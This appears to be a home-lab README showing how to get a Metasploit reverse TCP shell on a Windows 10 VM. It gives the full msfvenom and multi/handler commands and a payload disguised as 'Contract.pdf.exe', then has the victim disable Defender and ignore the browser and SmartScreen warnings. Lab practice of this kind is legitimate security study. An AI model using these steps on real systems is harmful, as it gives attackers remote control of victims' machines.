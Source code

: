 # Establish reverse TCP Shell by Windows Executable created with Metasploit
Use malicious payload to create a reverse TCP shell. 

### Disclaimer:
All experiments are conducted in an isolated virtual lab for educational and research purposes only.

## Used in project:
- Proxmox VE
- Windows 10 VM
- Kali Linux VM
- pfSense firewall VM
- VLAN managed by pfSense

## Step 1: Create payload for Windows with MFSvenom
Enter the command  `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.10 lport=4444 -f exe -o Contract.pdf.exe` in Kali Linux terminal which:
- payload - `windows/x64/meterpreter/reverse_tcp`
- lhost - IP address for reverse shell
- lport -  port for reverse shell
- format - exe
- name - Contract.pdf

## Step 2: Open listening handler for reverse shell
Open metasploit by command `msfconsole` and enter commands:
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST 192.168.10.10`
- `exploit`

## Step 3: Create HTTP server on Kali Linux VM to download malware
Open new tab in terminal and create HTTP server on port 9999 with command
- `python3 -m http.server 9999 `

## Step 4: Disable Windows Defender and download malware
In Windows Security tab:
- Disable `Real-time protection`
- Open up `kali_linux_ip:9999` in browser and download malware from http server
- Ignore chrome warnings

## Step 5: Use opened session
- Execute Contract.pdf.exe file and ignore Defender SmartScreen
 
![2025-02-27 17_53_49-proxmox - Proxmox Virtual Environment](https://github.com/user-attachments/assets/b5005ab5-dabf-41e4-9472-53343f874055)

- After that meterpreter session is opened
  
![2025-02-27 17_58_56-proxmox - Proxmox Virtual Environment](https://github.com/user-attachments/assets/0a06cbcf-0ce8-44d9-8617-ca43ebdfdf45)

- Open Windows shell by `shell` and run calculator by `calc` command as proove.

![2025-02-27 18_02_54-proxmox - Proxmox Virtual Environment](https://github.com/user-attachments/assets/57bc749a-6de8-42c5-973c-62c07e3d4011)

![2025-02-27 18_08_25-QEMU (Win10) - noVNC](https://github.com/user-attachments/assets/ac5b3a3c-feab-40e0-9b8b-83aa0ab936e0)





